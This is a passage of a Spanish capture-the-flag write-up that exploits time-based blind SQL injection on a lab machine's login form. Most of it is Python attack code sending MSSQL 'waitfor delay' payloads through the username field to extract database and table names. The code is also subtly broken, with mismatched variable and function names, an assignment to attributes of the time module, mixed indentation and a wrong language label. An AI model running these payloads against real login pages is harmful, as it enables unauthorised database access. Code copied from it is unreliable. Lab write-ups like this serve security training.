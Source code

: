 ```ruby
                time.start = time.time()
                r = requests.post(ip_address, data=post_data, verify=False)
                time.end = time.time()

                if time.end - time.start > 5:
                    
                    Databases += palabra
                    
                    p2.status(Databases)
                    
                    break
        Databases += ', '

if __name__ == "__main__":
    sqlinyección()
```

Con este metodo podemos extraer las Bases de Datos:

`master, model, msdb, streamio, streamio, tempdb`

Vemos que funcionar funciona, ahora tocara listar las columnas para ello retocamos el script en el **'payload'** 

Con el siguiente argumento podemos listar las columnas actualmente en uso:
```sql
if(select substring(table_name,1,1) from information_schema.tables order by table_name offset 1 rows fetch next 1 row only)='m' waitfor delay'0:0:5'
```

Cambiamos el **'payload'** por el de arriba y lo ajustamos a la situación:
```ruby
#!/usr/bin/python3

from pwn import *
import requests
import pdb
import string
import time
import urllib3

#Variables Globales
ip_address = "https://streamio.htb/login.php"
caracter = string.ascii_lowercase

def sqlinyeccon():
    
    p1 = log.progress("Fuerza Bruta")
    p1.status("Fuerza Bruta")

    p2 = log.progress("Nombre de Tablas")

    Tablas = ""
    
    for columna in range(0, 10):
        for posición in range(1, 10):
            for palabras in caracter:
                
                urllib3.disable_warnings()

				payload = "if(select substring(table_name,%d,1) from information_schema.tables order by table_name offset %d rows fetch next 1 row only)='%c' waitfor delay'0:0:5'--" % (posicion, columna, palabras)
                
                post_data = {
                    'username': "admin'%s" % (payload),
```